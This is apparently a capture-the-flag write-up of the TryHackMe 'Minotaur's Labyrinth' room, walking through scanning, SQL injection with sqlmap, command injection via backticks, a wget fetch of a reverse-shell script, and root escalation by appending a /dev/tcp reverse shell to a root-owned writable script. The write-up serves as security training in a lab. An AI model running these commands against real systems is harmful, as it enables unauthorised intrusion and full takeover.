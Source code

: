 #  [Minotaur's Labyrinth (TryHackMe)](https://tryhackme.com/room/labyrinth8llv)

First an initial scan with rustscan:


<code>rustscan -a 10.10.139.83 --ulimit 5000</code>  


![PICTURE_RUSTSCAN](https://user-images.githubusercontent.com/93183445/140650388-04ab3337-b42c-4bd8-a1ab-cd0daca6c247.png)


After that, let's throw nmap at it:

<code>nmap -sV -sC 10.10.139.83</code>  

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/140650415-24920e15-df4b-4513-9f75-8589d4ab716f.png)

Let's see what directories we can find:

<code>ffuf -u http://10.10.139.83/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</code>  

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..
In the ftp directories is some rather interesting stuff, it looks like:

![PIC_FTP1](https://user-images.githubusercontent.com/93183445/140650439-3f17a701-b07c-4d76-aa5b-7c7bcc692865.png)

Let's explore and take a look around :)

![PIC_FTP2](https://user-images.githubusercontent.com/93183445/140650455-e0da12ec-90bd-451b-978c-88a7b2a8506e.png)

Aaaand we got the fist flag!!!

While ffuf is still running, I'm going to take a look at the website:

![PIC_WEB1](https://user-images.githubusercontent.com/93183445/140650473-eaeb3905-efe9-4ea6-928d-c58b19b691a5.png)

No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:\
(The hyperlinks are not what they seem, but go for it, if you feel adventurous, lol)

The source code reveals:

![PIC_WEB2](https://user-images.githubusercontent.com/93183445/140650530-b1c3ac5c-9e94-4b87-9bb4-ded0ae887ac5.png)

A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to finish:

![PIC_FUFF](https://user-images.githubusercontent.com/93183445/140650575-eccbffef-c76e-44a0-9854-bb71b9747314.png)

Going through the directories, we can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.

---------------------------------------------------------------------------------

POST /minotaur/minotaur-box/login.php HTTP/1.1\
Host: 127.0.0.1\
Content-Length: 36\
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"\
Accept: */*\
Content-Type: application/x-www-form-urlencoded; charset=UTF-8\
X-Requested-With: XMLHttpRequest\
sec-ch-ua-mobile: ?0\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36\
sec-ch-ua-platform: "Windows"\
Origin: http://127.0.0.1\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Sec-Fetch-Dest: empty\
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html\
Accept-Encoding: gzip, deflate\
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7\
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv\
Connection: close\

email=hidden&password=hidden


---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I turned to the login page again, and got in :) 

![PIC_LANDING1](https://user-images.githubusercontent.com/93183445/140650895-ae7fdda0-ca6d-4505-86ac-e9750e928900.png)

So far we have two names: 'Daedalus' and 'Minotaur'.  
Plus we can appearantly search for 'People' and 'Creatures'.  
Let's do that...

![PIC_LANDING2](https://user-images.githubusercontent.com/93183445/140650903-8dd321a7-1c95-4fd7-b6dd-b90e9cea2d5e.png)

Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

<code>sqlmap -r req_master.txt --dbs --batch --time-sec=3</code>

Aaaaand we get a hit:

![PIC_SQLMAP1](https://user-images.githubusercontent.com/93183445/140650920-fe7f8b49-d593-4ee4-a906-6c0cce29b8f4.png)

Dump it:

![PIC_SQLMAP2](https://user-images.githubusercontent.com/93183445/140650926-7ff4ef49-4982-45f4-aed7-72e35b7cf2e0.png)

![PIC_SQLMAP3](https://user-images.githubusercontent.com/93183445/140650932-0d1a0c5a-21c6-4d44-993f-846400eff686.png)

As the newly found user with admin rights is in the same table as Daedalus, with whom we were able to login  
before, let's find out if we get in with these creds, after a short trip to Crackstation..  
(https://crackstation.net)

After we log in, we can find the flag in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff".  
That sounds interesting enough to follow that. Who could resist that..?

![PIC_LANDING3](https://user-images.githubusercontent.com/93183445/140650947-46ec7a1c-6559-4a86-ab0c-370d925017fe.png)

The link leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice.  
No matter what I was trying in regards to command injection, it didn't get me command execution.  
This site led me finally to using backticks, instead of quotation marks.  
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

\`ls\`

![PIC_RCE1](https://user-images.githubusercontent.com/93183445/140650956-67398bff-8298-49e7-920f-57642485ca02.png)

So we got rce, let's explore that. And we can find flag3 in the user home directory, which we also are able to read.  

\`cat /home/user\`

![PIC_RCE2](https://user-images.githubusercontent.com/93183445/140650965-b12da9b1-b7f2-4923-9fc0-c2333e4a7158.png)

Let's get a shell then. I had to try a few things and ended up with:

\`/usr/bin/wget <IP>/rev.txt -O /tmp/rev.sh\`

Content of rev.txt ([https://www.revshells.com](https://www.revshells.com)):
  
![PIC_REV1](https://user-images.githubusercontent.com/93183445/140651318-d67dd2b4-6a44-4e16-abaf-c89fec962ac7.png)

Set up a local server to serve the shell:  
  
<code>python3 -m http.server 80</code>  
  
Then set up a listener  
  
<code>nc -lnvp 9001</code>
  
and execute the freshly downloaded reverse shell on the target:  
  
\`bash /tmp/rev.sh\`

![PIC_REV2](https://user-images.githubusercontent.com/93183445/140651333-9964013c-007a-45ff-b3f1-e1d662fa0927.png)

After running linpeas.sh and searching around for a bit, I got a tip. There's a file in the root directory\
that we can write to. Plus it is owned by root.. So let's abuse that and pack a rev-shell in that very file :)

![PIC_REV3](https://user-images.githubusercontent.com/93183445/140651338-c8f5a0cf-5939-4dac-ab46-d50150fe698f.png)
  
<code>echo 'sh -i >& /dev/tcp/<IP>/6666 0>&1' >> timer.sh</code>  

Start another listener and it will connect without any further doing. Now you're root _tataaaa_ \
So let's go and get the final flag in the /root directory:

![PIC_FINAL](https://user-images.githubusercontent.com/93183445/140651348-8391acb8-eb86-438f-9e62-20d61c21fa4f.png)

DONE :)










































